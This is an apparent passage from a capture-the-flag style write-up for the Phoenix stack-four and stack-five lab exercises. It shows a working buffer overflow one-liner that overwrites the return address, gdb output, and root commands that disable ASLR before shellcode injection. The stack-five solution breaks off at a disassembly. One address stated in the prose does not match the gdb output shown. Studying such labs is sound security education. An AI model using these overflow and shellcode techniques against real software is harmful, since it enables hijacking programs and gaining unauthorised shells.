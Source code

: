 The solution is similar to the previous exercise, but we have to control the control flow by overriding the `rip` address after returning from the main function.

This address is stored at the begging of the stack frame. (See `0x04 - CPU` for more information)

We will assign it to the `complete_level` function (located at `0x0040069d`)

```
$ gdb ./stack-four 
(gdb) info functions 
...
0x000000000040061d  complete_level
0x0000000000400635  start_level
…

$ python -c 'print ("A"*88)+"\x1d\x06\x40\x00\x00\x00\x00\x00" ' | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

## Stack Five

### Exercise

Description: https://exploit.education/phoenix/stack-five/

### Solution

The goal of this challenge is to execute some code from the stack. To proceed, we will have to inject valid assembler code in the stack, update `rip` to point to it.

Some piece of assembler, named `shellcode` are available in `shell storm`. They are designed to take control of the program workflow, by creating, by example, a remote shell.

In this challenge, we will use the following one: http://shell-storm.org/shellcode/files/shellcode-806.php

From an execution to another, the Stack content can be different. To avoid, jumping to the wrong address, we use the `nop slide` technique: https://en.wikipedia.org/wiki/NOP_slide

First, you need to disable stack address randomization: (root)
```
sudo -i
# echo 0 > /proc/sys/kernel/randomize_va_space
```

```
$ gdb ./stack-five

(gdb) set disassembly-flavor intel

(gdb) disassemble start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:     push   rbp
   0x000000000040058e <+1>:     mov    rbp,rsp
   0x0000000000400591 <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:    mov    rdi,rax
   0x000000000040059c <+15>:    call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:    nop
   0x00000000004005a2 <+21>:    leave
   0x00000000004005a3 <+22>:    ret
End of assembler dump.
```
